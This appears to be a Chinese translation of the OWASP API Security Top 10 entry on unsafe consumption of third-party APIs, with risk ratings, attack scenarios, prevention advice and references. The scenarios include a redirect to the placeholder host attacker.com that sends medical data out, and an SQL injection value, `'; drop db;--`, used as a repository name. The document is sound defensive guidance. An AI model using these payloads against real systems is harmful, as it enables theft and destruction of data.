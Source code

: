 API10:2023 不安全的API用法
=====================================

| 威胁来源/攻击特征                                            | 安全弱点                                                     | 影响                                                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| API相关：易利用性**2**                                       | 普遍性**2**：可检测性**1**                                   | 技术**3**：业务相关                                          |
| 开发人员往往会相信与外部或第三方API交互的终端点。对这些API中的安全漏洞进行成功利用可能会影响依赖它们的人。 | 通常，API集成依赖于较弱的安全要求，例如有关传输安全、身份验证/授权和输入验证和净化的要求。 | 敏感信息被未经授权的人员获取，很多种类型的注入是常见的问题。 |

## API是否易受攻击？

开发人员往往会相信来自第三方API的数据，而不是用户输入。特别是对于知名公司提供的API，开发人员往往会采用较弱的安全标准，例如在输入验证和净化方面。

如果API满足以下条件，则可能存在漏洞：

- 与其他API在未加密通道上交互；
- 在处理来自其他API的数据之前，未正确验证和净化该数据或将其传递给下游组件；
- 盲目遵循重定向；
- 没有限制可用于处理第三方服务响应的资源数量；
- 未实现与第三方服务交互的超时。

## 攻击场景举例

### 场景1

一个API依赖于第三方服务来丰富用户提供的业务地址。当最终用户提供地址时，它被发送到第三方服务，并返回的数据然后存储在本地SQL启用的数据库中。

攻击者使用第三方服务来存储与他们创建的业务相关的SQL注入负载。然后，他们攻击易受攻击的API，提供特定的输入，使其从第三方服务中提取他们的“恶意业务”。 SQL注入负载最终由数据库执行，将数据外传到攻击者控制的服务器。

### 场景2

一个API与第三方服务提供商集成，以安全的方式存储用户的敏感医疗信息。使用如下的HTTP请求通过安全通道发送数据：

```
bashCopy code
POST /user/store_phr_record
{ "genome": "ACTAGTAG__TTGADDAAIICCTT…" }
```

攻击者找到了一种方法来破解第三方API，并开始以308永久重定向响应之前的请求，如下所示：

```
javascriptCopy code
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

由于API盲目地遵循第三方重定向，它将重复相同的请求，包括用户的敏感数据，但这一次是发送到攻击者的服务器。

### 场景3

攻击者可以准备一个名为 `'; drop db;--` 的Git仓库。

现在，当受攻击应用程序的集成与恶意存储库完成后，将在构建应用程序的注入负载上使用该存储库的注入负载，以认为存储库的名称是安全输入的应用程序上。

## 预防措施

- 在评估服务提供商时，评估其API安全姿态。
- 确保所有API交互都发生在安全的通信通道（TLS）上。
- 在使用集成API接收到数据之前，始终验证并适当地清理数据。
- 维护一个白名单，其中包含已知的位置，集成的API可能会重定向到您的位置：不要盲目遵循重定向。

## 参考资料

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### External

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html
